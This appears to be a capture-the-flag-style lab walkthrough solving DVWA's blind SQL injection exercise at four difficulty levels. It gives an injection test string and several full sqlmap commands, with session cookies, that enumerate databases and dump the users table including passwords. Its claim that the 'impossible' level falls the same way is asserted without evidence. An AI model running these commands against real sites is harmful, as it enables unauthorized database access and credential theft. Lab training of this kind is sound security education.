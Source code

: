# DVWA - SQL Injection (Blind) Solution

## Low level

Use `1' or '1' = '1' #` to test the SQL injection. The web response 'User ID exists in the database'. So, we can know there can be attack.

![](https://i.imgur.com/43sNhp1.png)

Then we use the tool named 'sqlmap' to get the database's name.
We need to get the cookie on the browser, tpye `document.cookie` on the consloe on browser.

Open the consoleuse "F12" and enter the `document.cookie` to get the cookie.

![](https://i.imgur.com/JuU9HSP.png)

And use the following command to get the name of database. 

```bash
sqlmap -u "http://192.168.1.66/DVWA-master/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=v0df91sctmp8jm7mh17pc1rlnd;" --current-db 
```

![](https://i.imgur.com/drfAfxk.png)

Now we can change the environment variable to get the tables name using the following command.

```bash
sqlmap -u "http://192.168.1.66/DVWA-master/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=v0df91sctmp8jm7mh17pc1rlnd;" -D dvwa --tables
```

Then we can get the table name in the "dvwa" database.

![](https://i.imgur.com/4EC9MU9.png)

Use the followig command to get the columns name.

```bash
sqlmap -u "http://192.168.1.66/DVWA-master/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=v0df91sctmp8jm7mh17pc1rlnd;" -D dvwa -T users --columns
```

![](https://i.imgur.com/bJKOkXJ.png)

Use the followig command to get the data in database.

```bash
sqlmap -u "http://192.168.1.66/DVWA-master/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=v0df91sctmp8jm7mh17pc1rlnd" -D dvwa -T users -C user,avatar,password --technique=B -v 3 --dump --batch
```

![](https://i.imgur.com/NEpQJXQ.png)

## Medium level

In this case, the web use the select bar to choose the idto search.
Then we use the proxy to check the request, as the figure can see, it use the post method to get the data.

![](https://i.imgur.com/8BUgk7L.png)

In this level we also use the sqlmap to inject to the sql.

Use the following command to attack the sql.

```bash
sqlmap -u "http://192.168.1.66/DVWA-master/vulnerabilities/sqli_blind/" --cookie "security=medium; PHPSESSID=v0df91sctmp8jm7mh17pc1rlnd;" --data="id=1&Submit=Submit" --dbs
```

![](https://i.imgur.com/KMGYhDt.png)

We can see all of database in this sql.

We can use the following command like the low level to get the tables.

```bash
sqlmap -u "http://192.168.1.66/DVWA-master/vulnerabilities/sqli_blind/" --cookie "security=medium; PHPSESSID=v0df91sctmp8jm7mh17pc1rlnd;" --data="id=1&Submit=Submit" -D dvwa --tables
```

![](https://i.imgur.com/jQA7FYO.png)

As the figure can see there is two tables named guestbook and users.

We also can use the same way to get other information in this sql.

## High level

In high level, it will set the input to the cookie. Then will read the cookie and get the newest id in cookie and sent it to the backend to search. As the figure can see the request header.

![](https://i.imgur.com/I8uGHmG.png)

So, we can also use the sqlmap to attack the sql using the following command like the previous level.

```bahs
sqlmap -u "http://192.168.1.66/DVWA-master/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie "security=high; PHPSESSID=v0df91sctmp8jm7mh17pc1rlnd;" --dbs
```

![](https://i.imgur.com/LUj4gwH.png)

We can use the similar way like prevous level to get the information from the sql.

## Impossible level

In the impossible level the request need to include 'user_token'. We can use the proxy to know it like the following figure.

![](https://i.imgur.com/xzI9IDF.png)

Therefore we can use the sqlmap in the same way to get the information from the sql.

Using the following command we can see all of databases' name in the sql.

```bash
sqlmap -u "http://192.168.1.66/DVWA-master/vulnerabilities/sqli_blind/?id=1&Submit=Submit&user_token=f489d3c81e8579ead5f61d4947bf3d3e" --cookie "security=impossible; PHPSESSID=v0df91sctmp8jm7mh17pc1rlnd" --dbs
```

![](https://i.imgur.com/Qly6dTg.png)

Then you can use the similar way to get the other information.
